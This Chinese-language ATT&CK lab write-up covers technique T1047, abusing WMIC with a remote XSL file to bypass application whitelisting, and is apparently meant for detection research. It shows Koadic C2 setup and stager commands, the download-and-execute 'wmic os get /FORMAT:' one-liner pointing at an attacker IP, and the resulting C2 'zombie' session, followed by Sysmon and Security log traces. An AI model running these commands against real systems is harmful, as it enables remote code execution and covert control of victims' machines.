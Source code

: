 # T1047-win-使用WMIC执行payload（白名单）

## 来自ATT&CK的描述

WMI（Windows Management Instrumentation）是Windows管理功能，它为本地和远程访问windows系统组件提供了统一的环境。它依赖WMI服务来进行本地和远程访问，以及SMB（服务器消息块）和RPCS（远程过程调用服务）来进行远程访问。RPCS通过端口135运行。

攻击者可能会使用WMI与本地和远程系统交互，也可能使用WMI来执行许多策略功能，例如为发现收集信息和远程执行文件来横向移动。

## 测试案例

WMIC扩展WMI（Windows Management Instrumentation，Windows管理工具），提供了从命令行接口和批命令脚本执行系统管理的支持。在WMIC出现之前，如果要管理WMI系统，必须使用一些专门的WMI应用，例如SMS，或者使用WMI的脚本编程API，或者使用象CIM Studio之类的工具。如果不熟悉C++之类的编程语言或VBScript之类的脚本语言，或者不掌握WMI名称空间的基本知识，要用WMI管理系统是很困难的。WMIC改变了这种情况。

说明：Wmic.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Wmic调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\wbem\wmic.exe
C:\WINDOWS\SysWOW64\wbem\wmic.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\wbem\WMIC.exe
C:\Windows\SysWOW64\wbem\WMIC.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### Koadic

通过Koadic发起Wmic.exe攻击

koadic是一个命令控制（C2）工具，类似Metasploit和Powershell Empire。使用koadic我们生成恶意XSL文件。koadic安装完成后，您可以运行./koadic 文件以启动 koadic，然后通过运行以下命令开始加载stager/js/wmic 程序，并将 SRVHOST 设置为程序回连IP。

```bash
git clone https://github.com/zerosum0x0/koadic.git  #安装命令
cd koadic
pip3 install -r requirements.txt
```

```bash
#加载载荷
./koadic
(koadic: sta/js/mshta)# use stager/js/wmic
(koadic: sta/js/wmic)# set SRVHOST 192.168.126.146
[+] SRVHOST => 192.168.126.146
(koadic: sta/js/wmic)# run
[+] Spawned a stager at http://192.168.126.146:9996/6G69i.xsl
[>] wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

#### 靶机执行payload

执行 WMIC 以下命令，从远程服务器下载和运行恶意XSL文件：

```cmd
wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

靶机测试结果

```dos
C:\Users\12306Br0>wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"12306BR0-PCroot\cimv2roo
t\cliIMPERSONATEPKTPRIVACYms_804ENABLEOFFN/AOFFOFFSTDOUTSTDOUTN/AON\Device\Hardd
iskVolume17601Multiprocessor FreeMicrosoft Windows 7 旗舰版 93686Win32_Operating
SystemWin32_ComputerSystemService Pack 112306BR0-PC480TRUETRUETRUE2FALSEFALSE256
29608362009844309911620200305144428.000000+48020200305151330.500000+480202004171
72815.995000+4800804Microsoft Corporation-18589934464zh-CNMicrosoft Windows 7 旗
舰版 |C:\Windows|\Device\Harddisk0\Partition2422164-bit205225618TRUE112306Br0004
26-292-0000007-85792102343416OK272\Device\HarddiskVolume2C:\Windows\system32C:44
4004820966326.1.7601C:\Windows
```

#### 反弹shell

一旦恶意的XSL文件在目标计算机上执行，你将有一个僵尸连接，就像Metasploit回连的情况一样。

```bash
[+] Zombie 0: Staging new connection (192.168.126.149) on Stager 0
[+] Zombie 0: 12306Br0-PC\12306Br0 @ 12306BR0-PC -- Windows 7 Ultimate
[!] Zombie 0: Timed out.
[+] Zombie 0: Re-connected.
(koadic: sta/js/wmic)# zombies 0

        ID:                     0
        Status:                 Alive
        First Seen:             2020-04-17 17:28:31
        Last Seen:              2020-04-17 17:29:04
        Listener:               0

        IP:                     192.168.126.149
        User:                   12306Br0-PC\12306Br0
        Hostname:               12306BR0-PC
        Primary DC:             Unknown
        OS:                     Windows 7 Ultimate
        OSBuild:                7601
        OSArch:                 64
        Elevated:               No

        User Agent:             Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0)
        Session Key:            02149f1202e3437ab7932672c0c9e6b5

        JOB  NAME                            STATUS    ERRNO
        ---- ---------                       -------   -------
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\wbem\WMIC.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: WMI Commandline Utility
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: wmic.exe
CommandLine: wmic  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x888
新进程名: 'C:\Windows\System32\wbem\WMIC.exe'
```

## 检测规则/思路

无具体检测规则。

## 参考推荐

MITRE-ATT&CK-T1047:<https://attack.mitre.org/techniques/T1047/>

windows下基于白名单获取shell的方法整理（上）:<http://www.safe6.cn/article/155>
